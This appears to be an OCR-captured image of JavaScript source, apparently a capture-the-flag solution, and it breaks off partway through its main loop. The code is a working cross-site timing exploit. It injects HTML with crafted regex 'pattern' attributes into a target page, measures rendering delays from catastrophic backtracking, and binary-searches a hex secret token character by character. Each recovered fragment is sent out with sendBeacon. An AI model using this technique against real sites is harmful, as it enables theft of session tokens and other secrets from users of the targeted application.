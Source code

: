 ```html

    const measure = async (pattern) => {
      win.location = "about:blank";
      await waitFor(() => win.length === 0);
      await sleep(100);

      const pad = "x".repeat(100);
      const html = `
        <input type="text" pattern="${pattern}" value="${pad}{{TOKEN}}">
        <iframe></iframe>
      `.trim();
      const url = `${BASE_URL}?${new URLSearchParams({ html })}`;

      win.location = url;
      await waitFor(() => {
        try {
          win.origin;
          return false;
        } catch {
          return true;
        }
      });
      const start = performance.now();
      await waitFor(() => win.length === 1);
      const time = performance.now() - start;

      return time;
    };

    const search = async (known) => {
      const CHARS = "0123456789abcdef";
      const W = 12;

      // Binary Search
      let left = 0;
      let right = CHARS.length;
      while (right - left > 1) {
        const mid = (right + left) >> 1;

        const timeL = await measure(`.*(.?){${W}}[${CHARS.slice(left, mid)}]${known}`);
        const timeR = await measure(`.*(.?){${W}}[${CHARS.slice(mid, right)}]${known}`);

        if ((Math.min(timeL, timeR) + 10) * 4 > Math.max(timeL, timeR)) {
          // retry
          await sleep(2000);
          continue;
        }

        if (timeL < timeR) {
          right = mid;
        } else {
          left = mid;
        }
      }

      return CHARS.slice(left, right);
    };

    const main = async () => {
      let known = "";
      for (let i = 0; i < 6 * 2; i++) {
        known = (await search(known)) + known;
        navigator.sendBeacon("/debug", JSON.stringify({ i, known }));
```